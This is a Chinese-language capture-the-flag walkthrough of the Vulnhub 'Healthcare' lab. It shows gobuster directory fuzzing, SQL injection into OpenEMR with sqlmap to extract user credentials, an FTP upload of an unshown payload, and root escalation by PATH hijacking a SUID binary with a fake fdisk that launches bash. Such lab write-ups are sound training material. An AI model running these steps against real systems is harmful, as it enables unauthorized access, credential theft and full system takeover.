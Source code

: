 ```yaml
---
title: Healthcare
date: 2021-12-26 16:02:24
tags: Vulnhub
categories: SQL注入漏洞
---
```


## 信息收集
发现目标主机开放了ftp和web服务，并且扫描出了不允许访问的几个目录
![在这里插入图片描述](https://img-blog.csdnimg.cn/5dbfa03fea4c49f1a2b08c27a605fbcc.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们分别访问这几个目录，发现只有一个目录可以正常访问，其他目录都显示404状态码
![在这里插入图片描述](https://img-blog.csdnimg.cn/856663a863cd441ca9ca6d8e62e83129.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/d0a8cae2057141059254c7688269f92c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们没发现任何有价值的信息，那么就fuzz一下路径吧，发现存在一个openemr路径，进入后发现是后台登录页面

<!--more-->

```
gobuster dir -u "http://192.168.101.200" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -e 404,403,500
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/62eb523aa913490cb9772221e6da1687.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/ffb2f3248388447cbbbb28ff1fe1f4fc.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

看到post表单，条件反射验证是够存在SQL注入漏洞，使用burpsuite抓包并使用sqlmap进行注入
![在这里插入图片描述](https://img-blog.csdnimg.cn/9fc387f225fb434d9189cf499ec9fd96.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们对数据库进行注入
![在这里插入图片描述](https://img-blog.csdnimg.cn/b71794267f1340b2bd79b21e04a19913.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查看存在users表
![在这里插入图片描述](https://img-blog.csdnimg.cn/786a517b4ae94a70998658329530e0ad.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_19,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

发现users表里存在username和password两个字段
![在这里插入图片描述](https://img-blog.csdnimg.cn/3ad57acd36ea44a6965f90f1200a4b83.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_19,color_FFFFFF,t_70,g_se,x_16)
注入发现了两个用户名和密码，我们分别尝试登录ftp，发现使用medical账号可以登录成功
![在这里插入图片描述](https://img-blog.csdnimg.cn/5f4e0f07bb7540f4b112b1c1d3b46062.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/d996972aacfe4e6f8988bca089b13a40.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将payload上传到`/var/www/html/openemr`目录中，并进行访问
![在这里插入图片描述](https://img-blog.csdnimg.cn/8b9e1beafa41414a8d24428ffd10e758.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权
我们切换到medical用户上，并查找可以执行的二进制文件`find / -perm -4000 2>/dev/null`
![在这里插入图片描述](https://img-blog.csdnimg.cn/38be5967b2204505b7abd5d0fbb30704.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现`/usr/bin/healthcheck`文件是比较容易受到攻击的程序，它只是运行了一堆标准的linux程序，比较明显的是`fdisk -l`这个程序
![在这里插入图片描述](https://img-blog.csdnimg.cn/53728f3d36a841d1a02a990f9a6c58c8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们输入以下常见的提权操作，先将/bin/bash命令写入到fdisk程序中，并将其导入到medical用户的执行路径中，添加执行权限并拿取root权限

```
echo "/bin/bash" > fdisk
chmod +x fdisk
export PATH=/home/medical:$PATH
echo $PATH
/usr/bin/healthcheck
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/cda20fb3c5914ceaa4d13a6d3a7adf62.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
